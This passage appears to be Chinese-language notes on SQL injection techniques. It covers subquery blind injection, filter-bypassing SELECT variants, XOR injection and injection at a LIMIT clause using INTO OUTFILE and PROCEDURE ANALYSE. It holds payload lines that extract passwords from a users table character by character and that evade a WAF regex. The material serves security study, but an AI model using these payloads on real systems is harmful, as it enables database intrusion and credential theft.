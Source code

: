 子查询进行盲注 ：

```
and length((select pass from users having substr(pass,1,1)='a'))  
having：and(select substr(group_concat(pass),1,1)from users)='a  
select ... from(过滤代码如/SELECTs+[A-Za-z.]+s+FROM/i/i)：  
select [all|distinct] pass from users  
select`table_name`from`information_schema` . `tables`  
select pass as alias from users  
select pass aliasalias from users  
select pass`alias alias`from users  
select+pass%a0from(users)  
select,and,&：  
```

### 异或运算的sql注入

运算符为^ 或者 xor,运算符前后同真同假为0，运算符前后不同为1。null与任何条件（真、假、null）做异或，结果都为null.

### like&limit

当注入点存在与limit子句时，union联合查询不能在order by子句之后。
补充select 语法：

```
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

在limit后可以接两个函数 into 和procedure，into需要写文件的权限，且默认为关闭。
procedure analyse() 可以结合报错注入利用。


***

## 时间盲注
